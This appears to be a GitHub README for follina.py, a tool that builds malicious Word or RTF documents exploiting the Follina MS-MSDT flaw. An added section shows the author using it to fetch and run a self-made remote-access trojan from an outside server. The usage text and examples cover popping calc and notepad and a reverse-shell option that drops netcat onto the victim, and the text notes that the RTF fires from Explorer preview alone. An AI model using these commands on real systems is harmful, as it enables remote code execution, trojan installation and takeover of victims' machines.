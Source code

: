 ## Using the vulnerability to deploy the remote access trojan I made as shown below
> python3 follina.py -c "wget -o 'client.py' https://.source-code-server./Client.py | pythonw client.py"


### [Remote-Access Trojan](https://lissankoirala.ml/projects/remote-access)
<img src="https://github.com/LissanKoirala/LissanKoirala/blob/main/trojan-globe.gif" alt="drawing" with="100"/>

#### Capabilities
![capabilities](https://user-images.githubusercontent.com/58141138/171510409-4f7cb5bd-34df-43e8-8c18-41dcada4cbd6.png)


Not Open Sourced


## As it's a rtf file, it doesn't even need to be opened
Just clicking the rtf file once will set the thing off and the remote-access with be gained
(The Explorer Preview)

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
